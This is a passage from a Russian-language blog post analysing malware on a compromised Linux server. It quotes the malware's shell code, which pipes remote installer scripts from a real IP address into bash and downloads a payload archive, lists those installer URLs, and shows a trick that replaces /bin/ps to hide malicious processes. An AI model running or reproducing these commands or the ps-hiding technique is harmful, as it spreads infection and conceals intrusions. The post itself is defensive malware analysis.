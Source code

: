 ```bash
    current=$(date +%s)
    last_modified=$(stat -c "%Y" ${MOHOME}/.ddns.log)
    if [ $(($current-$last_modified)) -gt 6 ];then
        echo "process is not running"
    else 
        ${CURL_CMD} -fsSL -o ${MOHOME}/.ddns.pid ${sh_url}/m/reg0.tar.gz
        exit 0
    fi
fi
if [ "$(id -u)" == "0" ];then
    ${CURL_CMD} -fsSL ${sh_url}/c/ar.sh |bash
else
    ${CURL_CMD} -fsSL ${sh_url}/c/ai.sh |bash
fi

```

Если проанализировать этот файлик и собрать все куски воедино, то получатся ссылки на инсталлеры — вот они:

**http://104.192.82.138/s3f1015/c/ar.sh**<br>
**http://104.192.82.138/s3f1015/c/ai.sh**

Файлики по ссылкам качать не советую (поэтому сделал их не кликабельными), да и ссылки эти рано или поздно умрут вместе с сервером. Опубликую код инсталлеров с убранным в начале **#!/bin/bash**, чтобы ты их случайно не запустил (если их не удалит github, потому что они могут попасть в вирусные базы). 

Вот эти два "кастрированных" файла:<br>
[ar.sh.txt](/uploads/2022-02-15-looking-for-virus-in-linux-system/ar.sh.txt)<br>
[ai.sh.txt](/uploads/2022-02-15-looking-for-virus-in-linux-system/ai.sh.txt)

Первый файлик рассчитан на ситуацию, если захваченная машина с рутовскими правами, второй — если это обычный юзер.

У них, кстати, неплохой код, его очень интересно изучать. Хотя и не без грубых косяков!
Например, можно было бы сделать его присутствие менее паливным. Как минимум, не нужно было его пихать сразу во все места, ну и дату создания файла можно же поменять у ФС для созданных и модифицированных файлов. А так, по сути, они все **find**'ом ищутся через опцию **atime**. Ну чуваки, ну камон)

Зато обрати внимание, как он лихо скрывает своё присутствие в **ps**:

```bash
...
mv /bin/ps /bin/ps.lanigiro 
echo "#!/bin/bash">/bin/ps
echo "ps.lanigiro \$@ | grep -v 'ddns\|httpd'" >>/bin/ps 
touch -d 20160825 /bin/ps
chmod a+x /bin/ps
${CHATTR} +i /bin/ps
```

Если интересно (не забудь [написать](/about/)) — могу разобрать их в следующей статье.

Так, вернемся к зараженной машине и посмотрим, что в **/var/tmp/** (этот путь я нашел в ранее упомянутом файлике **a.sh**):
